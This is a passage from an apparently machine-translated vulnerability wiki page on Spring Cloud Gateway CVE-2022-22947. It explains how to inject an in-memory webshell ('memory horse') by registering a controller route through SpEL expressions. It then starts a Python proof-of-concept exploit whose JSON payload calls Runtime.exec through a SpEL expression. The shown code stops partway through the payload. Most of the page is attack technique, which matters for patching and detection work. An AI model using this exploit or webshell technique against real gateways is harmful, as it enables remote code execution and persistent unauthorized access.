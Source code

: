 ![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573882630-988bce83-ebb7-4cb1-bedc-f64f13e1d7fb.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573890270-d0d7d0d6-480b-4077-a0b5-8288eeaf5c7d.png)

<br/> Directly use the `beanFactory` in the SPEL online environment to obtain the `RequestMappingHandlerMapping` object. 

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573902389-661a5cf0-e59b-4c70-8f77-0dc4281f6688.png)

<br/>The next process of creating a memory horse is very simple. The final effect is to inject the following custom `Controller` subclass into memory through SPEL expressions and complete the routing registration through the `RequestMappingHandlerMapping` object:

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573912918-962092be-759d-488b-bc77-b6960a4b2cab.png)

<br/>After constructing a new payload, the data packet is sent:

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573923086-32cab28a-86da-4cab-98fd-3405742b5d95.png)

<br/>After refresh, the memory horse will be injected:

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1647573937710-577aedc0-9571-4868-b4fc-fd753abe0de9.png)

<br/> Finally, remember to send a DELETE request to delete the created route.

## Vulnerability POC

<a-alert type="success" message="https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947/blob/main/spring_cloud_RCE.py" description="" showIcon>
</a-alert>
<br/>

```python
import requests
import json
import sys


def exec(url):

    headers1 = {
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/json'
    }

    headers2 = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    ## command to execute replace "id" in payload

    payload = '''{\r
      "id": "hacktest",\r
      "filters": [{\r
        "name": "AddResponseHeader",\r
        "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\\"id\\"}).getInputStream()))}"}\r
        }],\r
```